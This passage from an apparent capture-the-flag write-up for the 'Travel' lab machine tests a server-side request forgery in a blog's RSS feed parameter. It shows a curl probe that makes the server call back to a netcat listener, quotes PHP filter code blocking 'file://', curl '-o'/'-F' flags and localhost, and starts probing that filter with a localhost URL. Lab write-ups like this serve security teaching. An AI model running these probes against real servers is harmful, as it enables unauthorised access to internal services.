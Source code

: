 
The funtion is getting our url that we specify in `?custom_rss=` and making a `curl` request to this url.

# The SSRF


I will test this parameter to see if we can get a connection back on my nc listener. We run the following command:
```bash
curl "http://blog.travel.htb/awesome-rss/?custom_feed_url=10.10.14.14"
```
And we get a connection back on our listener.
```bash
sudo nc -nlvp 80                                    1 ⨯
listening on [any] 80 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.189] 38274
GET / HTTP/1.1
Host: 10.10.14.14
User-Agent: curl/7.64.0
Accept: */*
```

We now head back to our files and enumerate them.

## ssrf protections

The one thing that sticks out immidieately is a funtion withing the source that attepts to protect against ssrf attacks. You can read more about theese at: 
[https://en.wikipedia.org/wiki/Server-side_request_forgery](https://en.wikipedia.org/wiki/Server-side_request_forgery)

This source seems to not allow certain things in our url. It doesnt allow the use of `file://` as the protocol. it doesnt allow the use of the term `localhost` or equivelant address `127.0.0.1` it also does not allow the flags `-F` and `-o`.
```php
if(strpos($tmpUrl, "file://") !== false or strpos($tmpUrl, "@") !== false)
	{		
		die("<h2>Hacking attempt prevented (LFI). Event has been logged.</h2>");
	}
	if(strpos($tmpUrl, "-o") !== false or strpos($tmpUrl, "-F") !== false)
	{		
		die("<h2>Hacking attempt prevented (Command Injection). Event has been logged.</h2>");
	}
	$tmp = parse_url($url, PHP_URL_HOST);
	// preventing all localhost access
	if($tmp == "localhost" or $tmp == "127.0.0.1")
	{		
		die("<h2>Hacking attempt prevented (Internal SSRF). Event has been logged.</h2>");	
```	
We go ahead and test this on the website. We use this url:
```bash
http://blog.travel.htb/awesome-rss/?custom_feed_url=localhost:80
```
